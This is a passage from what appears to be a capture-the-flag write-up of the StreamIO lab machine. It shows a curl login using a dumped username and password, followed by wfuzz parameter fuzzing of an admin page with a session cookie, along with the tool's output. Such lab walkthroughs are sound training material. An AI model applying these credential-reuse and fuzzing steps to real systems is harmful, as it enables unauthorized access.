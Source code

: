We get a lot of responses but the interesting one is the first 301, which tells us the scanned URL of admin get's redirected to /admin/. Let's have a look:

![streamio-admin](/assets/images/2022-06-28-22-38-19.png)

We have a page with four links, each is a parameter:

```text
https://streamio.htb/admin/?user=
https://streamio.htb/admin/?staff=
https://streamio.htb/admin/?movie=
https://streamio.htb/admin/?message=
```

The staff page lists the users we saw earlier when we used SQLMap to dump the table, and we see yoshihide at the bottom.

## Wfuzz

There's nothing much here, let's try fuzzing for more parameters but to do this we need to be logged in with a valid cookie. We can do it from the terminal:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# curl -s -o /dev/null -k -X POST --cookie 'PHPSESSID=3k47ea2n095607g9vukkpvhu72' --data-binary 'username=yoshihide&password=66boysandgirls..' 'https://streamio.htb/login.php'
```

This silently logs us in with a valid cookie using the credentials we found earlier. Now we're authenticated we can use wfuzz to look at the parameter. Here's a test that it works with those known parameters and a few wrong one's to check the output:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# wfuzz -c -b PHPSESSID=3k47ea2n095607g9vukkpvhu72 -u 'https://streamio.htb/admin/?FUZZ=' -w fuzz.txt 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: https://streamio.htb/admin/?FUZZ=
Total requests: 10
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        62 L     160 W      2073 Ch     "user"
000000002:   200        398 L    916 W      12484 Ch    "staff"
000000003:   200        10790    25878 W    320235 Ch   "movie"
000000004:   200        49 L     131 W      1678 Ch     "message"
```
